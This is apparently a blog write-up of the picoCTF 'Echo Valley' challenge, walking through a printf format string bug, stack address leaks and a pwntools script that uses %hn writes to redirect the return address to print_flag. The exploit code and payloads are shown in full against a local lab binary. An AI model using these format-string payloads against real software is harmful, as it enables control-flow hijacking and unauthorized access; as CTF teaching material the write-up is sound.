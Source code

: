 +++
title = "picoCTF"
date = 2025-04-10
authors = ["rishit khandelwal"]
+++

# picoCTF

So when we first run `./valley`, we can observe that it asks us for some input as `Welcome to the Echo Valley, Try Shouting: \n`.

Looking into the code we can see that, `main()` simply calls `echo_valley`.
Looking into the code for `echo_valley` we see that its reads 100 bytes into a buffer of 100 bytes using `fgets`.
This essentially means that there is probably no buffer overflow in this case.

Looking down further we see:

```c
printf("You heard in the distance: ");
printf(buf);
```

This is obviously a format string vulnerability, and so we have arbitrary read/writes.
To win this challenge, we simply need to overwrite the stored rip on the stack such that when we enter "exit" we return to `print_flag` instead of `main`.

We can see by running `checksec` on the binary, that PIE is enabled so we cant just get the address of the function, but thats no problem, since we can just leak any other address from the stack which we know points to some known location, we can calculate the address of `print_flag`.
Going into `gdb`, we run the program and examine the stack to find the old rip on the stack.
If we leak the address using the format string vulnerability instead (lets just write a script to do that)

```py

from pwn import *

context.clear(arch = 'amd64')
p = process("./valley")

p.recv()
p.sendline(b"%p "*30)
print(p.recv().decode())
```

If we run this script a couple of times we notice that some the addresses seem to not change for the last few digits.
In my case the addresses which start with 0x7ffc--- seem to remain roughly the same in the last few digits.

```
0x7ffc292cc540 (nil) (nil) 0x561fa1a3670b 0x1 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0xa2070 (nil) 0xe227b993d1d31a00 0x7ffc292cc770 0x561f8ed4f413 0x7ffc292cc810 0x7f26175c9248 0x7ffc292cc7c0 0x7ffc292cc898 0x18ed4e040 0x561f8ed4f401 0x7ffc292cc898 0xf570526974ed44af 0x1
```

Doing this in gdb we can notice that the 21st seems to be the return address and the 20th one points to 8 bytes ahead of the return address.

So first we receive the address at the 20th position, then we subtract 8 to get the address at which we have to write the winning address.

We get the address at the 21st and then offset it by some value to get the address for `print_flag`.
By running `objdump -D valley` we can find the offsets of `main` and `print_flag`.
`main` is at 0x1401
`print_flag` is at 0x1269
but the address we get from the leak isnt exactly at `main`, so we go into gdb and find out the offset for from the address we got from the 21st address to main which turns out to be 0x1aa.

So we subtract 0x1aa from to get the address we want to overwrite.

So now we have both the value we want to overwrite and where we want to overwrite.
The way we can write is by using the `%n` format specifier.
Basically, `printf("AAAA%n", 0xdeadbeef);` will write 4 (from AAAA being printed being 4 bytes) to 0xdeadbeef.

Now you might wonder, we cant pass any arguments to `printf`, how do we write to any arbitrary address we want. Well we simply add the address as bytes into our payload. How does that help?
Well you might have noticed above that there are a lot of repeating x2070252070252070 in the above, what does that mean?
It means that our input is also accessible as arguments to `printf`! We can just point to the address we added as bytes into our input.

But we need to write an entire 64 bit address into at some address, and we dont really have that many bytes to spare (only a 100). So there are two solutions to this problem.

1. We use the padding feature for format specifier to make the string many times longer than it wouldve been otherwise.
2. Instead of overwriting the entire address and the gazzilions of bytes it would take, we just overwrite the last 2 bytes since only it remains the same (atleast the last 3 nibbles).

We can overwrite just the last 2 bytes by using `%hn` instead of using `%n` whose effect is essentially the same except that it writes just 2 bytes.

So our exploit script looks like:

```py
p.sendline(b"%20$p")
addr = p.recvuntil('\n')[29:-1].decode()
print(addr)
addr = int(addr, base=16)
addr -= 8
# now addr points to the old rip
p.sendline(b"%21$p")
win_addr = p.recvuntil('\n')[29:-1].decode()
win_addr = int(win_addr, base=16)
win_addr -= 0x1aa

win_addr_low = win_addr & 0xffff
# Since we only need to overwrite the last 2 bytes
```

Now the payload:

```py
payload = f"%{win_addr_low}x%8$hn".encode('utf-8')+p64(addr)
# Foreshadowing
p.sendline(payload)
p.sendline(b"exit")
print(p.recv())
```

But this obviously doesnt work! We dont know where the address actually is do we?
So we simply enter into gdb, and enter the payload, and try to figure out the argument the address aligns with.
By trial and error we see that by adding some spaces we can manage to have the address be exactly at the position of the 8th argument.

```py
x = len(str(win_addr_low)) # the length of the address in decimal
payload = f"%{win_addr_low-6}x{(9-x)*' '}".encode("utf-8")
payload += f"%8$hn".encode('utf-8')
payload += p64(addr)

p.sendline(payload)
p.sendline(b"exit")
print(p.recv())
```

The first change is that we subtract 6 from `win_addr_low`, as we are adding spaces to actually pad the address, we lessen the "apparent padding" to make sure the value remains the same.
Next depending upon the length of the decimal representation of `win_addr_low`, we may need to write 3 or 4 bytes so we add `9-x` spaces.

Now we simply need to run the full script and it should give us the flag!
But the script fails! Now why could that be, the logic seems flawless and there are no issues with the script either.
By strategically adding `print`s throughout the script i discovered this only seems to work if the 1st of the 4 nibbles im writing is 0 (i have no idea why).
By running the script a couple of times it worked once, and i knew it ran `print_flag`.

```txt
b'The Valley Disappears\nFailed to open flag file: No such file or directory\n'
[*] Process './valley' stopped with exit code 1 (pid 14436)
```
